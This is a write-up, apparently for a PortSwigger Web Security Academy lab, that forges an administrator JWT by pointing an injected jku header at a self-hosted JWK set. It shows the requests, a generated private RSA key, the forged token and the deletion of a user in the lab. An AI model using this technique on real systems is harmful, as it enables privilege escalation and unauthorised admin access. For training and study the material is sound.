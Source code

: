 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/15564523-8805-46d9-a8a1-c018213ec6e6)

## Overview :

Instead of embedding public keys directly using the `jwk` header parameter, some servers let you use the `jku (JWK Set URL)` header parameter to reference a `JWK Set` containing the key. When verifying the signature, the server fetches the relevant key from this URL. 

> **JWK Sets like this are sometimes exposed publicly via a standard endpoint, such as `/.well-known/jwks.json`**.

Secure websites will only fetch keys from trusted domains, but we can sometimes take advantage of URL parsing discrepancies to bypass this kind of filtering. 

## Solution :

Login as wiener using the credentials provided.

These are the followin requests that contain JWT.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cf2ef19a-5068-407b-8c2e-c139b1b4b669)

Notice that we are unauthorized to view the admin panel.

The request to admin panel has a JWT as follows,

```http
GET /admin HTTP/2
Host: 0a7300b10435c5be803e7bde00d400ec.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: session=eyJraWQiOiJlOGM3OTA0Yy00MzAzLTQ2MDYtYWE3Yy1iMjRkMjUwMTM2NTIiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTcyMjE2N30.H8W4JPBlwfnG0LNE0-ljV59P8dnX5ir83_QUmbxZnh4FlQ3eIFKm7_i6GPys1qE9NCsW-FYDc_KYy_dFYTDwhj_z9k0Cz7u4X_F9b9bCaYJvTE-v7k8SeTv0lBb2e7NeUX4318b9nIRLOHWgw0fcfKP_j6lhXmP-8ZL8TIt2V7w-gzNSyCMc2JAd2zB-9271dPrmcqid02u2uP4HPRC6ziwdlg3tNsubjj5lV-XvtDCScpPQRdrirLaU2UuJ8ZA9NzhZN9d_1fCvVF-UmTaY2l-GQt54hEX7Z5a_xhXHt3rVW_DttBmjzL-DXj5F3PcD5Tg8YPfq2o-Rls_wc6w4IA
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
Decode the JWT using [jwt.io](https://jwt.io/)

**Header -**

```json
{
  "kid": "e8c7904c-4303-4606-aa7c-b24d25013652",
  "alg": "RS256"
}
```

**Payload -**

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1695722167
}
```

### Create a new JWK set -

1. Goto `JWT Editor` & create a new RSA key.
```json
{
    "p": "2WfkwJlE57i1CDVdtpyzTMjAPG-vwGxMlLQupdOwGUUWKrgiwKY_xMX7BFdV3-Btune4vefRHH_jLBW1F8I3sZOfJk7k-BZNvC5zawWLaxOfBDr9KvCwRKikI08HOaWzqoe3lZIwxObVb-MGlXU5VHNzcIBYAO6i0z-n3szJWy0",
    "kty": "RSA",
    "q": "xLMj6EargijxOCGawnYcf3J1Be2O26adMyJ98UBgI5CCw3W25uuOsId9QuNaAgWeSBFor_2qsPbTqy9W8ClTLhGWzlqPNdaSw6ia4sVi_6G1CDcz7wsr8-_q3MwrCgJ6W-WZg5F4oL8vXWG-xB0xyRK70ulOhsZteiG1NY3ob3U",
    "d": "HGi8OqgFTZL2AdhJJKkbTjqDwWoVUOhciFxrtEg_-HqZkMBVuQtWajVUNDseu-OxmE89b9hvvuJamS2QNi75qMLzBuA5lfH5WruidaAzJojBgh7Q4ZPuHVENiWfbPDlpiVLbC-mpLZsT3aH6G7FG4dlpyvxgyo3MEeGT2uecSNdO9mvFqBz910LP6p6_VAcfuwdjtIwsi5StdIaa56SNiAPbO1TKkMEHURNvvznFALG5PKe1o6ja83HCMQCcDet_tTxMKx6lT5wM1X3uvS5mHalPQ_SVy3fu9w379hjMk8PuLBiHFMEWuEfoWPNoFhYxDItwJZg8UeqB5i5C3yLWZQ",
    "e": "AQAB",
    "kid": "9ecb48b3-3bd6-4285-8533-4b8277941425",
    "qi": "PHngPE5PRIsRq_IRjPPfBo2X3XuTMiu91wOebsiHEv5HrJ1i-Er2kKbRPqFB-5FrMQmtar1bxAXI5cAyZYszFQ16HG_c6MV0FVYe0OVzkdGWbGPWmeGFSyxMKRRmuGmFMy37XiP4H9n6uMetzO2WomxF6KSt8wQiPCLenPPc7iA",
    "dp": "u_wV1GOzLRqNjpd2fNxqPU6oyplYQu5iGYLjgwfUEUWnsTCe_C3EngUC0_IgkwCgYMf8ulikfBwo9omemPia57VZu-okGlBOzxTrP_L_ZosEyMeo-WQ9RmD77Hv9J1-cRywrFe3etaNTkvefTcSa2ecqPnD7p3Kw4DD-mqxAv9E",
    "dq": "XR0wclSB_CvFhPzjdgrTksFsBFJgvjoxUHOTixEecbeHL2AaJVZ9RbPd6DwX770ZIKSdGjLLCtrNeMwAK9BkP_qzmRvlj2b0MwstxwwJwVmbiTgYraBsPh3k4IEGHsbthXM7KL1EjVPz6BDNbakkWDs2DrHDKqnkSVyLm76BucE",
    "n": "pwutRt51n5LAsFuqpfDf4XKp4lUmLdN2gTsJOIHG-Ye__sHmCv3kRzgXsXp-0fm00CLEsRs8o2Bhd5U6l6FSFrfeXsjtOLRgsLIUEaHEW0BUZ_B_Efljt5uCiMBaIT0Yny4Tzg9bQPpMJSLjh2D64v3xHTm4XxpI0Fx29uLxjrpzhY-W2_IuXVlnNNlcbraBB9Ayq20cfvwQdTQUQY6eluQeCzbi--2pk0nAbnPTR0WG5N14-cUzXTlfl9fvJjvTOBaJ2esqY2b0f1zoM0qYiBoRp4y48Y70MKX9_UBk0yXo-21F42H_zEOZshJked2n9cmqwn7MbqT0iYKiUFcukQ"
}
```
2. Upload the JWK set in a JSON format with the key as `keys` and value in an array as the JWK set.

```json
{
    "keys": [
         {
    "p": "2WfkwJlE57i1CDVdtpyzTMjAPG-vwGxMlLQupdOwGUUWKrgiwKY_xMX7BFdV3-Btune4vefRHH_jLBW1F8I3sZOfJk7k-BZNvC5zawWLaxOfBDr9KvCwRKikI08HOaWzqoe3lZIwxObVb-MGlXU5VHNzcIBYAO6i0z-n3szJWy0",
    "kty": "RSA",
    "q": "xLMj6EargijxOCGawnYcf3J1Be2O26adMyJ98UBgI5CCw3W25uuOsId9QuNaAgWeSBFor_2qsPbTqy9W8ClTLhGWzlqPNdaSw6ia4sVi_6G1CDcz7wsr8-_q3MwrCgJ6W-WZg5F4oL8vXWG-xB0xyRK70ulOhsZteiG1NY3ob3U",
    "d": "HGi8OqgFTZL2AdhJJKkbTjqDwWoVUOhciFxrtEg_-HqZkMBVuQtWajVUNDseu-OxmE89b9hvvuJamS2QNi75qMLzBuA5lfH5WruidaAzJojBgh7Q4ZPuHVENiWfbPDlpiVLbC-mpLZsT3aH6G7FG4dlpyvxgyo3MEeGT2uecSNdO9mvFqBz910LP6p6_VAcfuwdjtIwsi5StdIaa56SNiAPbO1TKkMEHURNvvznFALG5PKe1o6ja83HCMQCcDet_tTxMKx6lT5wM1X3uvS5mHalPQ_SVy3fu9w379hjMk8PuLBiHFMEWuEfoWPNoFhYxDItwJZg8UeqB5i5C3yLWZQ",
    "e": "AQAB",
    "kid": "9ecb48b3-3bd6-4285-8533-4b8277941425",
    "qi": "PHngPE5PRIsRq_IRjPPfBo2X3XuTMiu91wOebsiHEv5HrJ1i-Er2kKbRPqFB-5FrMQmtar1bxAXI5cAyZYszFQ16HG_c6MV0FVYe0OVzkdGWbGPWmeGFSyxMKRRmuGmFMy37XiP4H9n6uMetzO2WomxF6KSt8wQiPCLenPPc7iA",
    "dp": "u_wV1GOzLRqNjpd2fNxqPU6oyplYQu5iGYLjgwfUEUWnsTCe_C3EngUC0_IgkwCgYMf8ulikfBwo9omemPia57VZu-okGlBOzxTrP_L_ZosEyMeo-WQ9RmD77Hv9J1-cRywrFe3etaNTkvefTcSa2ecqPnD7p3Kw4DD-mqxAv9E",
    "dq": "XR0wclSB_CvFhPzjdgrTksFsBFJgvjoxUHOTixEecbeHL2AaJVZ9RbPd6DwX770ZIKSdGjLLCtrNeMwAK9BkP_qzmRvlj2b0MwstxwwJwVmbiTgYraBsPh3k4IEGHsbthXM7KL1EjVPz6BDNbakkWDs2DrHDKqnkSVyLm76BucE",
    "n": "pwutRt51n5LAsFuqpfDf4XKp4lUmLdN2gTsJOIHG-Ye__sHmCv3kRzgXsXp-0fm00CLEsRs8o2Bhd5U6l6FSFrfeXsjtOLRgsLIUEaHEW0BUZ_B_Efljt5uCiMBaIT0Yny4Tzg9bQPpMJSLjh2D64v3xHTm4XxpI0Fx29uLxjrpzhY-W2_IuXVlnNNlcbraBB9Ayq20cfvwQdTQUQY6eluQeCzbi--2pk0nAbnPTR0WG5N14-cUzXTlfl9fvJjvTOBaJ2esqY2b0f1zoM0qYiBoRp4y48Y70MKX9_UBk0yXo-21F42H_zEOZshJked2n9cmqwn7MbqT0iYKiUFcukQ"
}
    ]
}
```
3. Store the JWK set.

### Modify  sign the JWT -

1. Send the */admin* request to repeater.
2. Open the `JSON Web Token` tab & make the following changes
   - Header section :

     1. Replace the current value of the `kid` parameter with the `kid` of the JWK that we just created and uploaded in the exploit server. In my case it is - `9ecb48b3-3bd6-4285-8533-4b8277941425`
           
     2. Add a `JKU` key with the value - `https://exploit-0ac400c304e2c5ec801a7a8801a300b8.exploit-server.net/exploit`.

   - Payload section :
     
           1. Change the value of `"sub": "wiener"` to `"sub": "administrator"`.
3. Now both the header & payload part looks as follows,

**Header -**

```json
{
    "kid": "9ecb48b3-3bd6-4285-8533-4b8277941425",
    "alg": "RS256",
    "jku": "https://exploit-0ac400c304e2c5ec801a7a8801a300b8.exploit-server.net/exploit"
}
```

**Payload -**

```json
{
    "iss": "portswigger",
    "sub": "administrator",
    "exp": 1695722167
}
```
### Self sign the JWTtoken -

Click on **Sign** & enable **Don't modify header** option before clicking OK.

Now the JWT token looks as follows,

```
eyJraWQiOiI5ZWNiNDhiMy0zYmQ2LTQyODUtODUzMy00YjgyNzc5NDE0MjUiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vZXhwbG9pdC0wYWM0MDBjMzA0ZTJjNWVjODAxYTdhODgwMWEzMDBiOC5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdCJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTU3MjIxNjd9.NDFj4ZHPnpa-to4ygZhtncMVOhqH8SxGPPYiFzTG8JKew2fM3QDJipS_GF1TD3E6og2J-eGEH2C2P0o9IOj64dRZNOWAtzFBNrdYfJriv9bolx3klWxOyWD3eoUoUqPR_7DMCxA6ZHs5ODywsKhv1x8aqG1svnqup6zrSJ47_jD5GLemkG4Fff27frKxB1uIx0bOiRCMOLLIkL6TZPHBhfgrSdZXwwWx8kgAGF_vRFc6KJHf2cq3ygXv-5yqwXR6dpgTgUbRYbvqLnUrhQRLa5yJkfF3_40m-3JGWy2fQ0mHOrd6k_W2IP8QMs3fVjnISLBdo3z7YAbSb9-SN6fxfQ
```

Replace the original JWT with the one we just created & forward the request to /admin.

Now we are able to access the administrator tab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b80c8da2-3edc-48eb-9581-6523ff5b043e)

Delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2c68f283-acbb-4511-bfd5-3d424ac6928f)

   

